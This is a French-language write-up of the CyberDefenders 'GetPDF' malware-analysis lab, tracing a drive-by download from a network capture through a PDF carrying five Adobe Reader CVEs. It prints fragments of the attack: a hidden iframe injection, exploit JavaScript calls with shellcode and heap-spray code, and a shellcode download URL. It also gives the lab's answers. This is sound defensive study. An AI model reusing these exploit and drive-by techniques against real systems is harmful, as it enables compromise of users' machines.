# GetPDF Lab : CyberDefenders Writeup

> Analyse d'un PDF malveillant multi-exploits à partir d'une capture réseau réelle. Déobfuscation JavaScript, dissection d'objets PDF, émulation de shellcode et décodage Shikata Ga Nai à la main.

| Lab | Catégorie | Difficulté | Statut |
|---|---|---|---|
| [GetPDF](https://cyberdefenders.org/blueteam-ctf-challenges/getpdf) | Malware Analysis | Medium | 11/11 ✅ |

**Tactiques MITRE couvertes** : Initial Access, Execution, Command and Control

---

## Contexte

Le lab part d'une capture réseau (PCAP). Un utilisateur a visité une page web, son navigateur a téléchargé un PDF via un redirect PHP, et ce PDF a tout fait pour compromettre son Adobe Reader. L'objectif est de remonter la chaîne : du trafic brut jusqu'au malware droppé sur la machine.

L'échantillon est le challenge forensique GetPDF du Honeynet Project (2010). Vieux de 15 ans, mais techniquement dense : cinq CVE dans un seul fichier, deux shellcodes encodés différemment, un exploit TIFF caché dans un formulaire XFA. Typique des PDF weaponisés de l'époque , et la majorité des techniques utilisées ici restent actives dans des campagnes récentes.

---

## Méthodologie et sources

Ce que j'ai utilisé, dans l'ordre où ça sert :

- **Wireshark** pour les questions réseau (Q1-Q4) : filtrage HTTP, export des fichiers transférés, hash
- **pdfid** pour le survol (objets, keywords suspects, streams)
- **pdf-parser** pour la navigation objet par objet
- **peepdf** pour décoder les streams multi-filtres et extraire le JS
- **scdbg** pour émuler les shellcodes et récupérer les paths droppés
- **Python** pour les décodages manuels : encodage `89af50d`, encodage `X_17844743`, et Shikata Ga Nai , scripts générés avec Claude

Pas de reverse engineering lourd. Pas de sandbox payante. Tout ce qu'un analyste T1/T2 peut faire avec les outils listés dans le lab.

Note d'environnement : pdf-parser était incompatible avec Python 3.13 sur ma machine. peepdf Python 3 s'installe via `pip install peepdf-3` (le package `peepdf` PyPI de base est Python 2, sans équivalent Python 3 direct).

---

## Investigation pas à pas

### Q1. Nombre de paths URL dans l'incident

**Outil** : Wireshark

En filtrant sur le protocole HTTP dans Wireshark et en relevant les paths distincts sur toutes les requêtes GET, on en compte six au total.

**Réponse** : `6`



---

### Q2. URL contenant le code JS

**Outil** : Wireshark (filtre `http`)

La première réponse HTTP contient un `<script>` inline avec le code obfusqué. Il est servi depuis la page d'entrée du challenge.

**Réponse** : `http://blog.honeynet.org.my/forensic_challenge/`



---

### Q3. URL cachée dans le code JS

**Outil** : décodage manuel (Python)

Le script de la page utilise une technique d'encodage peu commune : les 324 mots du tableau `DayahDet` encodent chaque caractère via la **longueur des mots** (longueur - 1 converti en hex, par paires). Aucune chaîne reconnaissable en clair, pas de `eval`, pas d'`http` visible.

Après décodage :
```javascript
document.write('<iframe scrolling="no" width="1" height="1"
  src="http://blog.honeynet.org.my/forensic_challenge/getpdf.php">
</iframe>')
```

Un iframe 1×1px invisible force le téléchargement du PDF sans interaction utilisateur. C'est le point d'entrée de toute la chaîne.

**Réponse** : `http://blog.honeynet.org.my/forensic_challenge/getpdf.php`



---

### Q4. MD5 du PDF contenu dans le paquet

**Outil** : Wireshark (export) + PowerShell

Wireshark permet d'exporter les objets HTTP directement depuis le flux. Une fois le fichier extrait, le hash MD5 se calcule depuis PowerShell. Ce hash sert à retrouver des rapports sur des sandboxes publiques si nécessaire.

**Réponse** : `659cf4c6baa87b082227540047538c2a`



---

### Q5. Nombre d'objets dans le PDF

**Outil** : pdfid

Un détail notable dans la sortie : le PDF contient deux catalogues (`/Type /Catalog` dans les objets 1 et 27). C'est la signature d'un PDF légitime utilisé comme couverture, avec une structure malveillante greffée dessus. Le `trailer` pointe vers l'objet 27 comme `/Root`, mais la structure active est dans obj 1.

**Réponse** : `19`



---

### Q6. Nombre de schémas de filtrage

**Outil** : pdf-parser

Chaque stream déclare exactement la même chaîne :

```
/Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
```

Quatre filtres, empilés dans le même ordre sur les cinq streams (objets 5, 7, 9, 10, 21). La logique est simple : beaucoup d'outils d'analyse statique ne décompressent qu'un niveau ou deux. Avec quatre couches en cascade, la majorité des scanners voient du binaire illisible et passent à autre chose.

**Réponse** : `4`



---

### Q7. Numéro de l'objet stream contenant le JS malveillant

**Outil** : peepdf

La chaîne de références est directe :

```
obj 1  → /OpenAction 4 0 R     (déclenché à l'ouverture du PDF)
obj 4  → /S /JavaScript        (action de type JavaScript)
         /JS 5 0 R             (le code pointe vers l'objet 5)
obj 5  → Contains stream       (stream compressé, 395 octets)
```

peepdf le confirme avec `Objects with JS code (1): [5]`, et identifie CVE-2009-1492 via l'appel `getAnnots()` dans ce stream. L'objet 5 est le déclencheur initial, pas le gros payload.

**Réponse** : `5`


![peepdf , Objects with JS code: [5], CVE-2009-1492 détecté, stream décodé](./images/07-peepdf-obj5-cve1492.png)

---

### Q8. Objets streams contenant le JS d'exécution des shellcodes

**Outil** : peepdf + décodage Python

La page PDF (obj 3) déclare deux annotations : `[6 0 R, 8 0 R]`. Chaque annotation pointe via `/Subj` vers un stream :

```
obj 6 (Annot) → /Subj 7 0 R → obj 7  (8 714 octets)
obj 8 (Annot) → /Subj 9 0 R → obj 9  (10 522 octets)
```

Les deux streams sont encodés avec deux schémas custom différents :

**Objet 7** , format `89af50dXX` où `XX` est la valeur hex ASCII du caractère. Une fois décodé :
```javascript
this.bC = 3699;
util.printf("%45000f", num);          // CVE-2008-2992 : heap overflow
var shellcode = unescape("%uc931%u64b1...");
Collab.collectEmailInfo({msg: overflow}); // CVE-2007-5659
```

**Objet 9** , format `X_17844743X_17098774XXX` où les deux derniers hex donnent l'octet. Une fois décodé :
```javascript
var c = app;
function s(yarsp, len) {
    while (yarsp.length * 2 < len) { yarsp += yarsp; }
    ...
}
```

L'objet 7 déclenche les exploits et porte les shellcodes. L'objet 9 construit l'infrastructure heap spray. Séparer les deux complique le pattern matching : une signature sur `util.printf("%45000f")` dans un stream ne détecte rien si le contexte spray est dans un autre objet.

**Réponse** : `7,9`



---

### Q9. Chemin complet du fichier droppé

**Outil** : scdbg

Extraction du shellcode depuis le JS décodé (script généré avec Claude) :

```python
import re, struct

with open('decoded_obj7.js', 'r', errors='ignore') as f:
    js = f.read()

match = re.search(r'unescape\(["\'](%u[0-9a-fA-F]{4}[^"\']*)["\']', js)
tokens = re.findall(r'%u([0-9a-fA-F]{4})', match.group(1))
sc = b''.join(bytes([int(t[:2],16), int(t[2:],16)]) for t in tokens)

with open('shellcode.bin', 'wb') as f:
    f.write(sc)
```

Puis émulation :
```powershell
scdbg.exe /f shellcode.bin /findsc /s 100000
```

La sortie montre `URLDownloadToFileA` avec le path local cible.

Point à retenir pour la pratique : scdbg retourne "No shellcode detected" sur ce fichier sans le flag `/findsc`. Le byte-swap est nécessaire à cause du stub FPU du stager.

**Réponse** : `c:\WINDOWS\system32\a.exe`




---

### Q10. URL du malware droppé par le shellcode CVE-2010-0188

**Outil** : Python (décodage Shikata Ga Nai, généré avec Claude)

L'objet 21 est le template XFA du formulaire PDF. Son stream XML contient un champ `<ImageField1>` avec un bloc Base64. Ce Base64 décode en un fichier TIFF qui exploite CVE-2010-0188, un bug de parsing dans libtiff embarqué dans Adobe Reader.

Le TIFF contient un NOP sled (~1 300 octets `0x90`) suivi d'un shellcode encodé avec **Shikata Ga Nai**, l'encodeur polymorphique de Metasploit. Le principe : chaque bloc de 4 octets du shellcode est XOR-é avec une clé, et cette clé se met à jour à chaque itération en ajoutant le bloc qu'on vient de décoder. Sans rejouer ce décodeur, les bytes ressemblent à du bruit aléatoire , aucune signature ne trouve quoi que ce soit.

Pour décoder, on reproduit la mécanique à partir des paramètres lus dans le stub : clé initiale `0x36182c53`, 102 itérations. Le décodeur Python :

```python
import base64, struct

data = bytearray(base64.b64decode(b64_content))
edi  = 0x55f        # position du stub dans le fichier
key  = 0x36182c53   # clé initiale
count = 102

for _ in range(count):
    enc = struct.unpack_from('<I', data, edi + 0x18)[0]
    dec = enc ^ key
    struct.pack_into('<I', data, edi + 0x18, dec)
    edi += 4
    key = (key + dec) & 0xFFFFFFFF
```

Après décodage, le shellcode contient l'URL en ASCII direct.

**Réponse** : `http://blog.honeynet.org.my/forensic_challenge/the_real_malware.exe`






---

### Q11. Nombre de CVE dans le PDF

Recensement depuis tous les objets analysés :

| CVE | Objet | Vecteur |
|---|---|---|
| CVE-2007-5659 | 7 | `Collab.collectEmailInfo`, stack overflow |
| CVE-2008-2992 | 7 | `util.printf("%45000f")`, heap overflow |
| CVE-2009-1492 | 5 | `getAnnots()`, déclencheur initial |
| CVE-2009-4324 | 7 | `Doc.media.newPlayer()`, use-after-free |
| CVE-2010-0188 | 21 | TIFF malformé via XFA, libtiff |

**Réponse** : `5`

---

## Chaîne d'attaque reconstituée

```
Victime visite blog.honeynet.org.my/forensic_challenge/
       │
       ▼
JS obfusqué (encodage word-length)
→ décode iframe 1×1px invisible
       │
       ▼
getpdf.php → renvoie fcexploit.pdf
       │
       ▼
Adobe Reader ouvre le PDF automatiquement
       │
       ├─── obj 5 (OpenAction) → getAnnots() [CVE-2009-1492]
       │           │
       │           └── charge obj 7 + obj 9
       │                    │
       │                    ├── util.printf heap overflow  [CVE-2008-2992]
       │                    ├── Collab.collectEmailInfo    [CVE-2007-5659]
       │                    ├── newPlayer use-after-free   [CVE-2009-4324]
       │                    └── URLDownloadToFileA
       │                              │
       │                              ▼
       │                    c:\WINDOWS\system32\a.exe
       │
       └─── obj 21 (XFA/TIFF) → CVE-2010-0188
                    │
                    └── Shikata Ga Nai decode → URLDownloadToFileA
                                                      │
                                                      ▼
                                            the_real_malware.exe
```

---

## Ce que j'ai retenu

La partie la plus instructive du lab n'était pas de trouver les bonnes réponses, c'était de comprendre pourquoi chaque couche d'encodage existe.

Le JS de la page web encode les données dans les longueurs de mots plutôt que dans leur contenu. Le script ne contient aucune chaîne reconnaissable, pas d'URL, pas d'`eval`, pas de `document.write` en clair. Tout est réparti dans 324 mots d'apparence aléatoire. Ce genre de technique passe bien les filtres de contenu web qui scannent les strings.

Les quatre filtres empilés sur les streams PDF obéissent à la même logique. La plupart des scanners statiques ne décompressent pas plus d'un ou deux niveaux. FlateDecode + ASCII85Decode + LZWDecode + RunLengthDecode en cascade, c'est suffisant pour que beaucoup d'outils voient du binaire illisible et passent à autre chose.

Le split payload sur les objets 7 et 9 m'a pris du temps. J'avais d'abord l'impression qu'un des deux était redondant. Ce n'est pas le cas : l'objet 7 déclenche les exploits et porte les shellcodes, l'objet 9 construit l'infrastructure mémoire. Séparer les deux casse les signatures simples basées sur un seul stream.

Pour Q9, scdbg a d'abord répondu "No shellcode detected". Le flag `/findsc` et le byte-swap ont été nécessaires pour que l'émulateur reconnaisse le stub FPU. Bon rappel : un shellcode qui n'est pas reconnu immédiatement ne signifie pas forcément qu'il n'y en a pas.

Le décodage Shikata Ga Nai pour Q10 était la partie la plus dense. L'encodeur XOR-e chaque bloc de 4 octets avec une clé qui se met à jour en permanence à partir du plaintext décodé. Sans rejouer ce processus à la main, les bytes du shellcode sont indiscernables du bruit, aucune signature statique ne trouve rien. Une fois la mécanique comprise et reproduite en Python, l'URL apparaît en clair dans les données décodées.

Cinq CVE dans un seul PDF, c'est ce qu'on appelle un exploit cocktail. L'idée est que pas tous n'ont besoin de réussir. Adobe Reader 8 et 9 partiellement patchés restent exposés à au moins un des cinq vecteurs. Pour un attaquant qui cible un parc hétérogène, c'est une couverture quasi-totale.

---

## Références

- [CyberDefenders : GetPDF Lab](https://cyberdefenders.org/blueteam-ctf-challenges/getpdf)
- [Honeynet Project : GetPDF Forensic Challenge](https://honeynet.org/challenges/)
- [CVE-2007-5659 : Collab.collectEmailInfo](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-5659)
- [CVE-2008-2992 : util.printf overflow](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-2992)
- [CVE-2009-1492 : getAnnots Adobe Reader](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1492)
- [CVE-2009-4324 : newPlayer use-after-free](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-4324)
- [CVE-2010-0188 : TIFF libtiff overflow](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-0188)
- [Metasploit : Shikata Ga Nai encoder](https://github.com/rapid7/metasploit-framework/blob/master/modules/encoders/x86/shikata_ga_nai.rb)
